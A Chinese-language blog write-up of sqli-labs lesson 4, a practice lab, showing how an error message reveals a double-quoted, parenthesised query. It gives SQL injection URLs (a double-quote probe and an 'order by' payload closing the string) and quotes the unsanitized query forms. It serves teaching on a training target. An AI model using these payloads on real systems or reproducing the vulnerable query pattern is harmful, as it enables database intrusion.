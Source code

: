 ```yaml
---
title: sqli-labs lession-4 基于错误的GET双引号字符型注入
date: 2018-09-20 09:08:58
tags:
categories: sql注入
---
```

# sqli-labs lession-4 基于错误的GET双引号字符型注入 #

## 登录界面 ##

![1](https://i.imgur.com/J6A7U4R.png)

## 注入过程 ##

题目提示是基于错误的,根据提示应该先判断错误类型。前三课分别使用了

* 1	`$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";`
* 2 `$sql="SELECT * FROM users WHERE id=$id LIMIT 0,1";`
* 3	`$sql="SELECT * FROM users WHERE id=('$id') LIMIT 0,1";`

所以不可能是上面的3种。尝试下双引号。

`http://10.60.250.214/less/Less-4/?id=1%22`

![2](https://i.imgur.com/DVv5q5W.png)

返回报错信息:

`You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '"1"") LIMIT 0,1' at line 1`

根据返回的错误信息猜测到SQL语句的源码应该为:

`$sql="SELECT * FROM users WHERE id=("$id") LIMIT 0,1";`

查看SQL语句,果然如此。

![3](https://i.imgur.com/Z0Eor43.png)

`http://10.60.250.214/less/Less-4/?id=1") order by 100%23`

![4](https://i.imgur.com/89fae8M.png)

成功！！！

剩下的操作无论是手注还是使用SQLMAP都和Lesson-1一样。

具体流程可以查看这里。

{% post_link sqli-labs-lession-1-基于错误的GET单引号字符型注入 点击查看Lesson-1 %}